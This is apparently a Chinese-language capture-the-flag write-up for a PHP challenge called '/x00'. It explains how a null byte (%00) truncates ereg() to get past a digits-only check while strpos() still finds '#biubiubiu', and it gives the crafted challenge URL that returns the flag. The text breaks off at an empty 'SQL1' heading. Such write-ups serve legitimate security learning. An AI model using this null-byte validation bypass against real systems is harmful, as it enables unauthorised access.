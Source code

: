 ![](img/5d1cbaca19ae5052f5f0f51ae39895a7.png)

### /x00

题目如下：

```
if (isset ($_GET['nctf'])) 
{
        if (@ereg ("^[1-9]+$", $_GET['nctf']) === FALSE)
            echo '必须输入数字才行';
        else if (strpos ($_GET['nctf'], '#biubiubiu') !== FALSE)   
            die('Flag: '.$flag);
        else
            echo '骚年，继续努力吧啊~';
} 
```

这题考察的是ereg()的00截断，满足nctf必须是1-9的实数；
strpos函数判断的是后面的字符中在前面的字符中出现的位置，返回其位置，从0开始；
所以试一下1%00#biubiubiu,先截断输入的数字，使ereg()函数不能识别到%00后面字符，所以就顺利绕过ereg()函数的判断，
其次要使得strpos函数识别到nctf中包含了#biubiubiu这一串字符，
但是在url中不能识别#，所以就使用url编码%23来替换#，所以构造如下的url

```
http://teamxlc.sinaapp.com/web4/f5a14f5e6e3453b78cd73899bad98d53/index.php?nctf=1%00%23biubiubiu 
```

就可以直接弹出flag
![](img/57837c76e6aa92b03b2994397fe99c54.png)

### SQL1

